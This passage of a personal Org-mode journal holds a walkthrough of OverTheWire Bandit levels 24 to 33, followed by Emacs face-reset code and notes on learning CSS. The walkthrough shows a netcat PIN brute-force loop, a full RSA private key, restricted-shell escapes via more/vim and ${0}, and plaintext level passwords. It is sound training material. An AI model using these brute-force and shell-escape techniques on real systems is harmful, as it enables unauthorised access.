#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

~id_rsa_overthewire.org-bandit26~ ≡

#+begin_src ssh-key :noweb no
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell :noweb no
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:landit26.expect][bandit26.expect]] ≡

#+begin_src expect :noweb no
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell :noweb no
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell :noweb no
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell :noweb no
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell :noweb no
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell :noweb no
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell :noweb no
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell :noweb no
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell :noweb no
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig :noweb no
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell :noweb no
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp :noweb no
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces :noweb no
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces :noweb no
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list :noweb no
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list :noweb no
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions :noweb no
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face :noweb no
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME :noweb no
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS :noweb no
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces :noweb no
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css :noweb no
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

